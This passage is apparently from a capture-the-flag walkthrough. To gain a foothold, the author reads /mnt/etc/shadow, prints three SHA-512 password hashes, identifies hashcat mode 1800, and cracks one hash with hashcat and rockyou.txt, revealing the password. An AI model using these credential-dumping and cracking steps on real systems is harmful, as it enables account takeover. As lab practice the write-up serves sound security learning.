 
Now we have to maintain a foothold and to do that we have various option like adding a user or gaining a ssh and can login directly.

```
cat /etc/shadow 
```
![[Pasted image 20240225121145.png]]

So i was looking at the wrong place as you can see that we don't any hashes so i decided to go back and find my mistake.

```
cat /mnt/etc/shadow
```
![[Pasted image 20240225121717.png]]

```
root:$6$TvYo6Q8EXPuYD8w0$Yc.Ufe3ffMwRJLNroJuMvf5/Telga69RdVEvgWBC.FN5rs9vO0NeoKex4jIaxCyWNPTDtYfxWn.EM4OLxjndR1:18605:0:99999:7:::

ubuntu:!$6$6/mlN/Q.1gopcuhc$7ymOCjV3RETFUl6GaNbau9MdEGS6NgeXLM.CDcuS5gNj2oIQLpRLzxFuAwG0dGcLk1NX70EVzUUKyUQOezaf0.:18601:0:99999:7:::

linux-admin:$6$Zs4KmlUsMiwVLy2y$V8S5G3q7tpBMZip8Iv/H6i5ctHVFf6.fS.HXBw9Kyv96Qbc2ZHzHlYHkaHm8A5toyMA3J53JU.dc6ZCjRxhjV1:18570:0:99999:7:::
```

So now we have the hashes and can crack them in the offline mode.

Now we have to identify the hash type and for that this site will help us
https://hashcat.net/wiki/doku.php?id=example_hashes

And we can see a pattern from the above hash `$6$`
![[Pasted image 20240225122707.png]]
So it means we have to use mode 1800 to crack this hash which us sha512crypt and the good part is that will use google colab gpu to crack the hash.


This is the github link for that https://github.com/someshkar/colabcat

We have to run this command and my account got blocked as GPU was running from last 1-2 hours.

So i am running that in my own Pc
```
.\hashcat.exe -m 1800 -D 2 .\hashes4.txt .\rockyou.txt -O
```
![[Pasted image 20240225151524.png]]

Finally the password is cracked after 15 minutes
![[Pasted image 20240225152335.png]]
```
linuxrulez
```

